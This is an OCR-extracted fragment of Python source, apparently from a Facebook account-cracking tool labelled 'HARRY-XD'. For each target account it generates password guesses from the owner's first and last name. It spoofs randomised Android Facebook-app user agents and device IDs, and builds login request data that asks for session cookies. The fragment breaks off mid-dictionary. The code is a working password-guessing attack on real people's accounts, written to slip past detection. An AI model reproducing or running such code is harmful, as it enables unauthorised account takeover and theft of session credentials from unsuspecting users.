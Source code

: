 def api(ids,names,passlist):

                try:

                        global ok,loop

                        sys.stdout.write('\r\r\033[1;37m [HARRY-XD] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()

                        fn = names.split(' ')[0]

                        try:

                                ln = names.split(' ')[1]

                        except:

                                ln = fn

                        for pw in passlist:

                                pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())

                                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))

                                application_version_code=str(random.randint(000000000,999999999))

                                fbs=random.choice(fbks)

                                gtt=random.choice(xxxxx)

                                gttt=random.choice(xxxxx)

                                android_version=str(random.randrange(6,13))

                                ua_string = f'Davik/2.1.0 (Linux; U; Android {str(android_version)}.0.0; {str(gtt)} Build/{str(gttt)} [FBAN/FB4A;FBAV/{str(application_version)};FBBV/{str(application_version_code)};FBDM/'+'{density=2.0,width=720,height=1280};'+f'FBLC/en_US;FBRV/{str(application_version_code)};FBCR/Movistar;FBMF/samsung;FBBD/samsung;FBPN/{str(fbs)};FBDV/{str(gtt)};FBSV/7.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]'

                                device_id = str(uuid.uuid4())

                                adid = str(uuid.uuid4())

                                data = {'adid':adid,

                                        'email':ids,

                                        'password':pas,

                                        'cpl':'true',

                                        'credentials_type':'device_based_login_password',

                                        "source": "device_based_login",

                                        'error_detail_type':'button_with_disabled',

                                        'source':'login','format':'json',

                                        'generate_session_cookies':'1',
